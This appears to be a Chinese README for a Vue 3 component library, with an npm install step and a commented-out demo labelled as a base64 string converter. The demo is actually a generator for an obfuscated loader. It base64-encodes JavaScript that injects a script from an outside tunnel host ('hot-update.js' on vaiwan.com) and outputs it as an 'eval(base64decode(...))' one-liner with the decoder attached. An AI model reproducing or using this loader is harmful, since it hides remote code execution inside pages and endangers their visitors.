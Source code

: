 ## 安装

### npm 安装

推荐使用 npm 的方式安装，它能更好地和 [webpack](https://webpack.js.org/) 打包工具配合使用。

```shell
npm install git+https://github.com/denghongdddd/vue3-frame_library --save
```

<!-- 引用资源 examples => website 文件夹位置
<img src="~examples/assets/images/Axure-Components.svg" alt=""> -->

<!-- base64、字符串转换 -->

<!-- :::demo base64、字符串转换
```html
    <template>
        <textarea style="width:100%;height:100px;" v-model="text" @input="input"/>
        字符串转base64
        <div style="word-break: break-all;">
            {{base64Str}};eval(base64decode(`{{base64}}`));
        </div>
    </template>
    <script>
        const {base64encode, base64decode, _keyStr, _utf8_decode } = require("black-knight/config/utils.js")
        export default{
            data(){
                return{
                    text:"",
                    base64:"",
                    base64Str:`${String(base64decode)};var _keyStr="${String(_keyStr)}";${String(_utf8_decode)}`,
                }
            },
            created(){
                this.text=`document.head.appendChild(Object.assign(document.createElement("script"),{src:"http://d_h_4eftq43taegraf.vaiwan.com/hot-update.js",type:"text/javascript"}))`
            },
            watch:{
                text(n){
                    this.base64 = base64encode(n)
                }
            },
        }
    </script>
```
::: -->
